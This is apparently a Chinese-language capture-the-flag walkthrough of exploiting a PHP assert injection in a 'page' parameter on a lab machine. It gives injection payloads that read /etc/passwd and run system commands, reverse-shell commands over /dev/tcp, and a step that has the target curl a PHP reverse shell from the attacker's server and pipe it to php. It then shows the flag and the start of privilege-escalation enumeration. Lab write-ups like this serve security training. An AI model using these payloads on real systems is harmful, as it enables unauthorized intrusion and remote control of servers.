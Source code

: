 #### .过滤绕过

推测后端`php`脚本可能存在类似正则匹配，如果存在`..`则会执行
1.  `&lt;?php echo "Not so easy brother!" ?&gt;` 
突然想到了标题的断言，尝试推测后端代码

<br/> 推测属于这种类型的代码的话，不能使用`..`<br/>`https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md`上搜索到了相关内容

<br/> 提供了一种很新颖的绕过思路
1.  `http://192.168.151.94/index.php?page=' and die(show_source('/etc/passwd')) or '` 
没有发现账号
1.  `http://192.168.151.94/index.php?page=%27%20and%20die(system(%22whoami%22))%20or%20%27` 
#### 命令执行反弹shell1(失败)
1.  `# 利用linux自带的bash进行反弹` 1.  `bash -i &gt;&amp; /dev/tcp/192.168.45.218/4545 0&gt;&amp;1` 1.  `http://192.168.151.94/index.php?page=' and die(system("bash -i &gt;&amp; /dev/tcp/192.168.45.218/4545 0&gt;&amp;1")) or '` 
发现没有回显，进行修改
1.  `http://192.168.151.94/index.php?page=' and die(system("sh -i &gt;&amp; /dev/tcp/192.168.45.218/4545 0&gt;&amp;1")) or '` 
##### 命令执行反弹shell2

反弹失败之后尝试用远程加载的方法
1.  `# 利用cp命令cp一个到当前文件夹并且命名为shell.php` 1.  `sudo cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php` 1.  `# 开启监听` 1.  `sudo nc -lvnp 4545` 
反弹shell配置
1.  `# 利用grep确定修改反弹shell_ip的第49行` 1.  `grep -n "127.0.0.1" shell.php` 1.  `&gt; 49:$ip = '127.0.0.1'; // CHANGE THIS` 1.  `# 同理监听端口是第50行` 1.  `grep -n "1234" shell.php` 1.  `50:$port = 1234; // CHANGE THIS` 1.  `# 利用sed命令替换里面的内容` 1.  `sed -i '49s/127.0.0.1/192.168.45.218/' shell.php` 1.  `sed -i '50s/1234/4545/' shell.php` 1.  `# 利用sed查看49与50行是否修改成功` 1.  `sed -n '49,50p' shell.php` 
###### python3开启http服务
1.  `# 利用python开启http服务` 1.  `sudo python3 -m http.server 80` 1.  `# 目标机器执行远程访问` 1.  `http://192.168.151.94/index.php?page=' and die(system("curl http://192.168.45.218:80/shell.php | php")) or '` 
命令执行成功

### 内网遨游-getshell

#### 交互shell

由于获取的shell交互不友好，利用python获得新的交互shell
1.  `# 利用python获取交互shell -&gt; python失败使用python3` 1.  `python -c "import pty;pty.spawn('/bin/bash')";` 
#### FLAG1获取
1.  `www-data@assertion:/$ find / -name local.txt 2&gt;/dev/null` 1.  `/var/www/local.txt` 1.  `www-data@assertion:/$ cat /var/www/local.txt` 1.  `525385afed5f2d70bfb89f7cb77b1da3` 
#### 信息收集-内网基础信息收集

提权的本质在于`枚举`，在获取shell之后我们要进行内网信息的收集，都是为了`提权`做准备

##### 检测Linux操作系统的发行版本

较老的`Ubuntu`以及Linux系统可以`overlayfs`提权
1.  `# 确定发行版本` 1.  `www-data@assertion:/$ lsb_release -a` 1.  `No LSB modules are available.` 1.  `Distributor ID: Ubuntu` 1.  `Description: Ubuntu 18.04.3 LTS` 1.  `Release: 18.04` 1.  `Codename: bionic` 
发行版本为`Ubuntu 18.04`，不太能`overlayfs`提权

